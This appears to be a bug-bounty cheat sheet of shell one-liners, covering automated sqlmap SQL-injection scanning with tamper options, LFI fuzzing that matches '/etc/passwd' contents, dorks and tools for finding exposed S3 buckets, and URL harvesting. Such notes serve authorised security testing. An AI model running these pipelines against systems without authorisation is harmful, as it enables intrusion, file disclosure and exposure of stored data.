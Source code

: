# Bugbounty
## 2024 Oneliners found online

## Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

## Screenshot
cat hosts | gowitness scan file -f - --write-csv  
***

## 2025 Oneliners found online 

## LFI
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done
***

### FIND S3

#### Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk
***

#### Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
***

#### Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

***
#### Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u

***

#### Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain

***

### Website you can use : 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
***
### Get urls

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out

cat targets.txt | gau | sort | uro | tee -a targets.gau

### credits to lostsec
***


